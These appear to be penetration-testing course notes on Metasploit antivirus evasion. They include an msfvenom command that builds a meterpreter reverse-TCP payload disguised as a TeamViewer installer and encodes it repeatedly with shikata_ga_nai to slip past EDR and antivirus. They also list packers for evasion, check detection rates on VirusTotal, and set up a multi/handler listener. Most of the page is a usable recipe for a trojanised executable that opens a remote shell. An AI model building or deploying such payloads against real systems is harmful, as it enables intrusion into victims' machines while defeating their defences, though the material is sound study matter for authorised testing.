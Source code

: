 We can run multiple iterations of the same encoding scheme to escape EDS/IDR 

```
# #### Generating Payload - With Encoding - 
# Running multiple iterations
#########
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe -k

# -a: The architecture to use for --payload and --encoders (use --list archs to list)
# -x, --template <path>: Specify a custom executable file to use as a template
# -k, --keep: Preserve the --template behaviour and inject the payload as a new thread


```

![image](https://academy.hackthebox.com/storage/modules/39/S8_SS02.png)

As we can see, it is still not enough for AV evasion. There is a high number of products that still detect the payload. Alternatively, Metasploit offers a tool called `msf-virustotal` that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.

#### MSF - VirusTotal

If we check against VirusTotal to get a detection baseline from the payload we generated:

```shell-session
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### Packers

Packers allow the `executable compression` of payload along with the executable program, leading to the decompression code in one single file. Packing Services for Optimal Antivirus Evasion (list of popular packer software):

[UPX packer](https://upx.github.io/)
[The Enigma Protector](https://enigmaprotector.com/)
[MPRESS](https://www.matcode.com/mpress.htm)
Alternate EXE Packer
ExeStealth
Morphine
MEW
Themida


## Modules

###  multi/handler

Setting Up Multi/Handler

```shell-session
use multi/handler
```
### search local_exploit_suggester
